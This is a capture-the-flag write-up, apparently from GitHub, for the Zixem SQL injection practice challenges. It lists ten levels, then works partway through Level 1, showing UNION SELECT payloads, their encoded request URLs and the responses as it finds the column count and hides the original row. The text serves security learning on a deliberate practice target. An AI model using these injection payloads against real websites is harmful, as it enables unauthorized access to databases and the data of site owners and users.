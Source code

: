 # Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()** (Exception: **Level 6** & **Level 9** & **Level 10**).
- **Have Fun** (:

# Reference Table:
- [Level 1](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-1)
- [Level 2](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-2)
- [Level 3](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-3)
- [Level 4](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-4)
- [Level 5](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-5)
- [Level 6](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-6)
- [Level 7](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-7)
- [Level 8](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-8)
- [Level 9](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-9)
- [Level 10](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-10)

===========================================================================================================  

## [Level 1](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-1)
Start:  
[https://zixem.altervista.org/SQLi/level1.php?id=1](https://zixem.altervista.org/SQLi/level1.php?id=1)  
> - **Item ID:** 1
> - **Price:** 20$

+ I guess the Query can be:  
`SELECT * FROM <db> WHERE id=1`  
+ We should add `UNION SELECT 1,2;--`  
+ ***PAYLOAD***: `1 UNION SELECT 1,2;--`  
+ `https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
> - The used SELECT statements have a different number of columns **Item ID:**
> - **Price:** $

+ So it doesn't have 2 columns, let's try again with more to see if the error still exist.  
+ ***PAYLOAD***: `1 UNION SELECT 1,2,3;--`  
+ `https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 1
> - **Price:** 20$

+ But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.  
+ ***PAYLOAD***: `1 AND 1=2 UNION SELECT 1,2,3;--`  
+ `https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 2
> - **Price:** 1$
